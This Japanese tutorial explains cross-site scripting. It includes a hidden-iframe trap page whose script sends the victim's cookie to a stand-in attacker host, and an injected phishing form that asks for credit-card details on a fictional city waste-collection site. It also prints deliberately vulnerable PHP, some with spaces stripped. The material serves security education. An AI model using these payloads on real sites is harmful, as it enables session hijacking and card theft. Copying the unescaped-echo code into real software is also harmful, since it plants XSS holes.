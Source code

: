 ```yaml
---
title: "XSS（クロスサイト・スクリプティング）"
---
```


- **ユーザーが Web ページにアクセスすることで不正なスクリプトが実行されてしまう脆弱性または攻撃手法**
- Web アプリケーションには外部からの入力などに応じて表示が変化する箇所がある
- この部分の HTML 生成の実装に問題があると、XSS という脆弱性が生じる
- XSS 脆弱性の影響は
  - サイト利用者のブラウザ上で、攻撃者の用意したスクリプトの実行によりクッキー値を盗まれ、利用者が成りすまし被害に遭う
  - 同じくブラウザ上でスクリプトを実行させられ、サイト利用者の権限で Web アプリケーションの機能を悪用される
  - Web サイト上に偽の入力フォームが表示され、フィッシングにより利用者が個人情報を盗まれる

![](https://storage.googleapis.com/zenn-user-upload/e6fb830f72ae-20231224.png)

## 攻撃手法と影響

### XSS によるクッキー値の盗み出し

攻撃者が悪意のあるスクリプトを Web ページに注入し、そのページを閲覧するユーザーのクッキーを盗み出す。
罠サイトで `<iframe />` を使用した場合の例は以下の通り。

1. **罠サイトの作成**
   - 攻撃者は罠サイトを作成する
   - このサイトは、見た目や内容が魅力的であり、ユーザを誘引するよう設計されている
2. **`<iframe />` を用いた脆弱なサイトの埋め込み**
   - 罠サイトには、XSS 脆弱性を持つ Web サイトのページを `<iframe />` で埋め込む
   - この `src` 属性には、XSS 攻撃を実行するための悪意あるスクリプトを含む URL が指定される
3. **悪意あるスクリプトの実行**
   - ユーザが罠サイトに訪れると、`<iframe />` 内で脆弱なサイトのページが読み込まれ、埋め込まれた XSS コードが実行される
4. **クッキーの盗取**
   - 埋め込まれた XSS スクリプトは、ユーザのブラウザ上で実行され、その結果として脆弱なサイトのユーザークッキーが盗み出される

攻撃者は以下のような HTML コードを含む罠サイトを作成する。

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Special Offer</title>
  </head>
  <body>
    <h1>Click here for a special offer!</h1>
    <iframe
      style="display:none;"
      src="http://vulnerable-website.com/page?param=<script>var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://attacker-website.com/steal-cookie?cookie=' + encodeURIComponent(document.cookie), true); xhr.send();</script>"
    ></iframe>
  </body>
</html>
```

この例では、攻撃者は以下のことを行なっている。

- `<iframe />` を使用して、脆弱なサイト（`vulnerable-website.com`）のページを隠しフレームとして埋め込む
- `<iframe />` の `src` 属性には、脆弱なサイトの URL と、悪意あるスクリプトを含むクエリパラメータが含まれている
- 悪意あるスクリプトは、ユーザのクッキーを読み取り、それを攻撃者のサイト（`attacker-website.com`）に送信する

### 画面の書き換え

- XSS 脆弱性は、ログイン機能のないサイトでも影響がある
- 下記は架空の市の粗大ゴミ受付サイト
- このサイトには XSS 脆弱性があるので、ページに HTML 要素を追加・変更・削除したり、フォームの送信先を変更することが可能

![](https://storage.googleapis.com/zenn-user-upload/342637324ccf-20231229.png)

- ページの実装コードは以下のようになる
- 入力画面と編集画面を兼ねているため、各入力項目の初期値が設定できるようになっている
- ここに、XSS 脆弱性がある

```php: /43/43002.php
<!DOCTYPEHTMLPUBLIC"//W3C//DTDHTML4.01Transitional//EN">
<html>
<head><title>○○市粗大ゴミ受付センター</title></head>
<body>
<form action=""method="POST">
氏   名<input size="20"name="name"value="<?phpecho@$_POST['name'];?>"><br>
住   所<input size="20"name="addr"value="<?phpecho@$_POST['addr'];?>"><br>
電話番号<input size="20"name="tel"value="<?phpecho@$_POST['tel'];?>"><br>
品   目<input size="10"name="kind"value="<?phpecho@$_POST['kind'];?>">
数   量<input size="5"name="num"value="<?phpecho@$_POST['num'];?>"><br>
<input type=submitvalue="申込">
</form>
</body>
</html>
```

- 以下の HTML は「〇〇市粗大ゴミ受付センター」サイトへの XSS 攻撃の罠サイト
- この画面は JavaScript えお使用しない XSS の攻撃例を兼ねており、攻撃用 `form` の `submit` ボタンをリンクに見せかけるようスタイル指定している

```html
<html>
  <head>
    <title>粗大ゴミの申し込みがクレジットカードで</title>
  </head>
  <body>
    ○市の粗大ゴミの申し込みがクレジットカードで支払えるようになっていたので、さっそく試した。これは便利です。
    <br />
    <form action="http://example.jp/43/43002.php" method="POST">
      <!-- ↓ 注入するHTML -->
      <input
        name="name"
        type="hidden"
        value='"></form><form style=top:5px;left:5px;position:absolute;zindex:99;backgroundcolor:whiteaction=http://trap.example.com/43/43903.phpmethod=POST>粗大ゴミの回収費用がクレジットカードでお支払い頂けるようになりました<br>氏名<input size=20name=name><br>住所<input size=20name=addr><br>電話番号<input size=20name=tel><br>品目<input size=10name=kind>数量<input size=5name=num><br>カード番号<input size=16name=card>有効期限<input size=5name=thru><br><input value=申込type=submit><br><br><br><br><br></form>'
      />
      <!-- ↓ リンクに見せかけたボタン -->
      <input
        style="cursor:pointer;textdecoration:underline;color:blue;border:none;background:transparent;fontsize:100%;"
        type="submit"
        value="○○市粗大ゴミ申し込みセンター"
      />
    </form>
  </body>
</html>
```

- 罠の画面は以下

![](https://storage.googleapis.com/zenn-user-upload/5efc0b06e34b-20231229.png)

- リンクに見せかけたボタンをクリックすると、攻撃対象サイトでは以下のような HTML が生成される

```php: /43/43002.php
<!DOCTYPEHTMLPUBLIC"//W3C//DTDHTML4.01Transitional//EN">
<html>
<head><title>○○市粗大ゴミ受付センター</title></head>
<body>
<form action=""method="POST">
氏   名<input size="20"name="name"value="">
</form>
<form style=top:5px;left:5px;position:absolute;zindex:99;backgroundcolor:white action=http://trap.example.com/43/43903.phpmethod=POST>
粗大ゴミの回収費用がクレジットカードでお支払い頂けるようになりました<br>
氏     名<input size=20name=name><br>
住     所<input size=20name=addr><br>
電話 番号<input size=20name=tel><br>
品     目<input size=10name=kind>
数     量<input size=5name=num><br>
カード番号<input size=16name=card>
有効 期限<input size=5name=thru><br>
<input value=申込 type=submit><br>
<br><br><br><br>
</form><br>
住   所<input size="20"name="addr"value="<?phpecho@$_POST['addr'];?>"><br>
電話番号<input size="20"name="tel"value="<?phpecho@$_POST['tel'];?>"><br>
品   目<input size="10"name="kind"value="<?phpecho@$_POST['kind'];?>">
数   量<input size="5"name="num"value="<?phpecho@$_POST['num'];?>"><br>
<input type=submitvalue="申込">
</form>
</body>
</html>
```

以下のように、元の `form` を隠し、新たな `form` 要素を追加することにより画面を改変する。

- `</form>` により、元のサイトにある `form` 要素が終了する
- 新しい `form` 要素を開始し、`style` 属性を指定する
  - `form` を絶対座標で画面左上に位置させる
  - `z-index` に大きな値（99）を指定し、元の `form` より前面に位置付ける
  - 背景色を白に指定し、元の `form` が透けて見えないようにする
- `action` 属性の url には罠のサイトを指定する

結果、画面は以下のように改変される。

![](https://storage.googleapis.com/zenn-user-upload/4ccbe46efcb2-20231229.png)

- クレジットカードの入力欄が悪意あるスクリプトにより注入された
- この `form` の `action` 属性には罠サイトの URL が入っている
- そのため、「申込」ボタンをクリックすると、入力した内容が悪意ある人物に盗まれる

